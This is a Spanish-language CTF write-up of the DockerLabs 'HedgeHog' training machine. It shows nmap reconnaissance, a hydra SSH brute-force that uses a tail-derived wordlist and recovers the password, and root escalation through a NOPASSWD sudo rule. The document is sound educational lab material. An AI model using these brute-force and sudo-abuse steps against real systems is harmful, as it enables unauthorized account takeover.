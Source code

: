 ```yaml
---
title: HedgeHog
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-01-03
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-hedgehog/hedgehog_logo.png
categories:
  - Docker_Labs
tags:
  - linux
  - dockerlabs
  - password_attacks
  - sudo_abuse
  - http
  - ssh
  - tcp
  - information_gathering
  - web_analysis
  - vulnerability_exploitation
  - privilege_escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/hedgehog:-$ ping -c 1 127.17.0.2
PING 127.17.0.2 (127.17.0.2) 56(84) bytes of data.
64 bytes from 127.17.0.2: icmp_seq=1 ttl=64 time=0.048 ms

--- 127.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.048/0.048/0.048/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/hedgehog:-$ nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv -oG nmap1 127.17.0.2
Host: 127.17.0.2 ()     Status: Up
Host: 127.17.0.2 ()     Ports: 22/open/tcp//ssh///, 80/open/tcp//http///        Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/hedgehog:-$ nmap -sCV -p22,80 -vvv -oN nmap2 127.17.0.2
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 34:0d:04:25:20:b6:e5:fc:c9:0d:cb:c9:6c:ef:bb:a0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNt2acaF9CKWqvibDqz36bJdqRXhBhBqCOAtvExAJy9Q2FullFAzNST6vJm0xFrlmpgS6fZb5+l3aTYFC18zyNU=
|   256 05:56:e3:50:e8:f4:35:96:fe:6b:94:c9:da:e9:47:1f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH2vWYkHZteiOgnLadFoN6gkctYlQYhtwGFeA7lm1OKE
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.58 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```terminal
/home/kali/Documents/dockerlabs/hedgehog:-$ whatweb 127.17.0.2
http://127.17.0.2 [200 OK] Apache[2.4.58], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[127.17.0.2]
```

---
## Web Analysis & Vulnerability Exploitation

Al analizar el servicio web, encuentro una página vacía que solo muestra la palabra "tails".

![](assets/img/dockerlabs-writeup-hedgehog/hedghog1.png)

En este punto, decido realizar un ataque de fuerza bruta al servicio SSH utilizando ```tails``` como nombre de usuario. 

```terminal
/home/kali/Documents/dockerlabs/hedgehog:-$ sudo hydra -l tails -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
```

Sin embargo, el ataque no tiene éxito. 

> En estas plataformas de ciberseguridad educativa, generalmente existe una regla no escrita: si se debe a realizar un ataque de fuerza bruta, la contraseña suele encontrarse cerca del principio de la lista de palabras. Esto es especialmente cierto si no se proporcionan pistas para generar una lista personalizada de contraseñas.
{: .prompt-tip }

En este caso, la pista hace referencia al comando ```tail```. Usando esta información, creo una wordlist personalizada que contiene las últimas 100 palabras del archivo ```rockyou.txt```.

```terminal
/home/kali/Documents/dockerlabs/hedgehog:-$ tail -100 /usr/share/wordlists/rockyou.txt > tail100rockyou.txt

/home/kali/Documents/dockerlabs/hedgehog:-$ sudo hydra -l tails -P tail100rockyou.txt ssh://172.17.0.2 -t 10 -I
[22][ssh] host: 172.17.0.2   login: tails   password: 3117548331
```

![](assets/img/dockerlabs-writeup-hedgehog/hedghog2.png)

El ataque tiene éxito y obtengo las credenciales SSH.

```terminal
/home/kali/Documents/dockerlabs/hedgehog:-$ ssh tails@127.17.0.2
tails@127.17.0.2's password: 3117548331

tails@kali:~$ whoami
tails
```

---
## Privilege Escalation

```terminal
tails@kali:~$ cat /etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
sonic:x:1001:1001::/home/sonic:/bin/bash
tails:x:1002:1002::/home/tails:/bin/bash
```

El usuario ```tails``` tiene la capacidad de ejecutar todos los comandos como el usuario ```sonic``` sin necesidad de contraseña.

```terminal
tails@kali:~$ sudo -l
User tails may run the following commands on kali:
    (sonic) NOPASSWD: ALL
```

Puedo obtener acceso a ```root``` ejecutando ```sudo su``` bajo el contexto de ```sonic```.

```terminal
tails@kali:~$ sudo -u sonic sudo su 

root@kali:/home/tails# id
uid=0(root) gid=0(root) groups=0(root)
```
